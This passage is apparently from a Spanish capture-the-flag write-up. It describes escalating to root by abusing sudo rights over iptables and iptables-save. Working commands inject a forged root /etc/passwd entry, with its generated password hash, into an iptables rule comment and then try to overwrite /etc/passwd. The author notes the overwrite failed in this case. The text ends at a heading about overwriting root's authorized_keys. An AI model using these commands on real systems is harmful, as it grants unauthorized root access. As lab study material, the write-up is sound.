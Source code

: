 ### Abusing sudoers privileges (iptables && iptables-save)

Revisando maneras de escalar nuestros privilegios para convertirnos en usuario`root`, nos encontramos que el usuario `sergej` dispone de permisos `sudoers` sobre `iptables && iptables-save`.

Realizando una bíusqueda en internet, nos encontramos con el siguiente blog que nos muestran un PoC de cómo elevar nuestros privilegios disponiendo de ambos permisos `sudoers` que dispone el usuario actual.

{% embed url="https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/" %}

<figure><img src="../../../../.gitbook/assets/imagen (209).png" alt=""><figcaption></figcaption></figure>

### Overwriting /etc/passwd to Add New Root User via sudoers (iptables & iptables-save)

En el PoC del blog mencionado, se nos informa que disponiendo de ambos permisos de `sudoers`, podemos intentar sobreescribir el archivo `/etc/passwd` para añadir una nueva entrada de un nuevo usuario `root` con una contraseña asignada por nosotros mismos.

En este caso, lo que realizaremos es copiar la entrada de nuestro `/etc/passwd` para tener la estructura de lo que deberemos añadir en el archivo de la máquina víctima.

Una vez tengamos la entrada de plantilla, lo que deberemos realizar es crear una contraseña en el formato de `OpenSSL`. Deberemos de reemplazar el valor `x` por el de la contreaseña generada, para lograr obtener el siguiente resultado --> _root:$1$Gow86CXS$sHAPSqpiT4xePLCPO147m1:0:0:root:/root:/bin/bash_

```bash
❯ catnp /etc/passwd | head -n 1
root:x:0:0:root:/root:/usr/bin/zsh

❯ openssl passwd Gzzcoo123
$1$Gow86CXS$sHAPSqpiT4xePLCPO147m1
```

Inyectaremos la entrada `root`falsificada en un nuevo comentario de regla de iptables, verificaremos que se encuentra añadida esta línea en las reglas de iptables y procederemos a sobreescribir el archivo `/etc/passwd` para añadir esta nueva entrada del usuario `root`.

En este caso, por x motivos no logramos sobreescribir el archivo mencionado, nos indica que la operación no está permitida.

```bash
sudo /usr/sbin/iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\nroot:$1$Gow86CXS$sHAPSqpiT4xePLCPO147m1:0:0:root:/root:/bin/bash\n'

sudo /usr/sbin/iptables -S

sudo /usr/sbin/iptables-save -f /etc/passwd
```

<figure><img src="../../../../.gitbook/assets/imagen (210).png" alt=""><figcaption></figcaption></figure>

### **Overwriting /root/.ssh/authorized\_keys to Upload Our Public SSH Key via sudoers (iptables & iptables-save)**
